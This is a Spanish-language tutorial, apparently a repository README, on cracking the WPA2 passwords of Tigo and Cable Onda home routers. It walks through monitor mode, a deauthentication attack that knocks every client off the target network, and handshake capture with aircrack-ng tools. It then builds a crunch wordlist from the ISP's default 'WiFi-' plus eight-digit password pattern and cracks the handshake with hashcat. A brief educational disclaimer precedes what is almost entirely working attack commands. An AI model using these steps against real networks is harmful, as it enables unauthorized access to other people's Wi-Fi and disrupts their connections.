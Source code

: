 # HACKING REDES TIGO

DISCLAIMER

Esta informacion no busca promover los ataques a redes que no sean de tu propiedad lo que se busca es tomarlo del punto educacional, que les ayude un poco a comprender como es un ataque de wireless y que nos ayude a protegernos.

# Procedimiento

[![Alt text](https://img.youtube.com/vi/uczbN0nxKfI&t=3s/0.jpg)](https://www.youtube.com/watch?v=uczbN0nxKfI&t=3s)

Para este ataque utilizaremos la tecnica de captura de handshake y este archivo lo pasaremos al hashcat para poder desencriptar el hash a traves de un diccionario que crearemos con CRUNCH. 

Utilizaremos tres aplicaciones para poder obtener el password [Aircrack-ng](http://aircrack-ng.org/)/[Hashcat](http://hashcat.net/). Crunch https://github.com/jim3ma/crunch

## Comencemos

Para este tutorial necesitaremos cualquiera de estas distribuciones de linux:

-Kali Linux https://www.kali.org/)
-Parrot OS https://www.parrotsec.org/
-Wifislax https://www.wifislax.com/

# Hardware
	
- Necesitaremos una interfaz de red que sea compatible con [monitor mode](https://en.wikipedia.org/wiki/Monitor_mode)
- Pueden entrar a ese link y verificar que tarjetas de red son compatibles
- (http://www.wirelesshack.org/best-kali-linux-compatible-usb-adapter-dongles-2016.html)

### Monitor Mode

Lo primero que tenemos que hacer es colocar nuestra interfaz de red en modo monitor:

```bash
airmon-ng start "NUESTRA INTERFAZ"
```

Normalmente siempre lleva el nombre de `wlan0` pero para verificar cual es nombre solo escribe en una terminal `iwconfig`:

### Ahora nos ponemos en modo escucha

```bash
airodump-ng wlan0
```

- Veran algo similar como esto

```
CH 13 ][ Elapsed: 52 s ][ 2017-07-23 15:49                                         
                                                                                                                                              
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                              
 14:91:82:F7:52:EB  -66      205       26    0   1  54e  WPA2             COWIFI241135420/9                                                 
```

- De esta ventana hay que anotar el bssid `14:91:82:F7:52:EB` y el canal `1`

### Poner en modo escucha el airodump

- Para esto solo tendremos que especificarle al airodump-ng en que red quiero que se enfoque y el nombre del archivo que quiero guardar toda esta informacion. con `-c` especificamos el canal `--bssid` insertamos el bssid y con `-w` nombramos el el archivo donde queremos que se almacene el handshake y por ultimo le especificamos nuestra interfaz de red.

```
airodump-ng -c 'CANAL' --bssid 'bssid' -w 'nombre del archivo' wlan0mon

```
```
 CH  6 ][ Elapsed: 1 min ][ 2017-07-23 16:09 ]                                        
                                                                                                                                              
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                              
14:91:82:F7:52:EB  -47   0      140        0    0   1  54e  WPA2 CCMP   PSK  COWIFI241135420/9  
```
-Ahora en otra terminal paralela a esta escribimos el siguente codigo
```
aireplay-ng --deauth 0 -a 'bssid' wlan0mon

```
-esto lo que hara es desautenticar a todos los disposivos y cuando se intente conectar capturaremos el handshake


-No pueden cerrar esta terminal hasta que en la parte superior derecha apareza este mensaje `[ WPA handshake: 14:91:82:F7:52:EB`.

- Luego cuando tengan este archivo '.cap' lo pasaremos a nuestro windows y entraremos a este link https://hashcat.net/cap2hashcat/ y comvertimos nuestro archivo .cap a .22000 que es el formato que lee hashcat.

# Creacion de diccionario

-Las redes tigo o cable onda tienen un particularidad y es que todas comienza con "WiFi-(y una serie de 8 numeros)" Con crunch podemos crear un diccionario especial para esto solo necesitaremos copiar estos comandos
```
crunch 13 13 -t WiFi-%%%%%%%% -o DiccionarioTIGO.txt

```

### Crack the Network Password

-Ahora en nuestro windows abriremos la consola y nos pocisionaremos donde tengamos descargado el hashcat luego cuando estemos adentro escribimos este codigo
```
hashcat -a 0 -m 22000 Nombre_del_hash.22000 diccionariotigo.txt --show

```

# LISTO

              
